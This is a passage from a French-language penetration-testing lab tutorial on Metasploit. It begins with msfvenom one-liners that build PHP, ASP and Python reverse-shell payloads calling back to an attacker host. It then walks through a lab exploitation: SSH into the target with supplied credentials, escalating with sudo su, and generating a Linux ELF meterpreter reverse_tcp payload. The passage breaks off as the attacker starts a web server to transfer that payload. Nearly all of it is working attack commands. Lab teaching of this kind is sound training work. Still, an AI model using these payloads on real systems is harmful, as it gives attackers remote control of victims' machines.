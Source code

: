 **PHP :**
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=4444 -f raw > shell.php
```
{: .nolineno }

**ASP :**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f asp > shell.asp
```
{: .nolineno }

**Python :**
```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=4444 -f raw > shell.py
```
{: .nolineno }

---

#### Exercice pratique : Exploitation complète

**Étape 1 : Connexion SSH**

Connexion au système cible avec les credentials fournis :

```bash
ssh murphy@10.10.52.128
```
{: .nolineno }

Élévation de privilèges :

```bash
sudo su
```
{: .nolineno }

---

**Étape 2 : Création du payload**

Génération d'un payload Meterpreter au format ELF pour Linux :

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.43.133 LPORT=4444 -f elf > shell.elf
```
{: .nolineno }

Attribution des permissions d'exécution :

```bash
chmod +x shell.elf
```
{: .nolineno }

---

**Étape 3 : Transfert du payload**

Démarrage d'un serveur web sur la machine attaquante :
